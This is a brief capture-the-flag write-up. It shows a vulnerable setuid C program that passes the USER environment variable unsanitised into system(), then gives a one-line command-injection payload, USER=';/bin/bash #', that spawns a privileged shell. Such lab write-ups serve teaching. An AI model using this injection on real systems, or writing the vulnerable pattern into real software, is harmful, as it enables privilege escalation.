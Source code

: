 # Level 02

The chall provide us this code:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

We can see that the user env is passed directly into `system()`
```c
asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
```

So we can just edit it:

```
>> USER=";/bin/bash #" /home/flag02/flag02
```